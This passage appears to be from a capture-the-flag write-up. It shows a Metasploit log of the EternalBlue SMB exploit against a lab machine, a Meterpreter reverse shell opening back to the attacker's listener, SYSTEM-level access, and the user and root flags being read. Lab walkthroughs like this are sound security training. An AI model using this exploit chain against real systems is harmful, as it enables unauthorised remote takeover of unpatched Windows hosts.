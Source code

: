 ```c
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Sending stage (200262 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.8:4444 -> 10.10.10.40:49158) at 2021-09-15 18:19:01 +0530
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeAuditPrivilege
SeChangeNotifyPrivilege
SeImpersonatePrivilege
SeTcbPrivilege

meterpreter > pwd
C:\Windows\system32
meterpreter > cd ../../
meterpreter > cd Users
meterpreter > ls
Listing: C:\Users
=================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
40777/rwxrwxrwx   8192  dir   2017-07-21 12:26:23 +0530  Administrator
40777/rwxrwxrwx   0     dir   2009-07-14 10:38:56 +0530  All Users
40555/r-xr-xr-x   8192  dir   2009-07-14 08:50:08 +0530  Default
40777/rwxrwxrwx   0     dir   2009-07-14 10:38:56 +0530  Default User
40555/r-xr-xr-x   4096  dir   2009-07-14 08:50:08 +0530  Public
100666/rw-rw-rw-  174   fil   2009-07-14 10:24:24 +0530  desktop.ini
40777/rwxrwxrwx   8192  dir   2017-07-14 19:15:33 +0530  haris

meterpreter > cat haris/Desktop/user.txt
<---USER FLAG---> 
meterpreter > cat Administrator/Desktop/root.txt
<---ROOT FLAG--->
meterpreter >
```
![image](https://user-images.githubusercontent.com/82046832/137312114-d5c89200-936f-41c4-9b80-f1b5c9bb3c92.png)

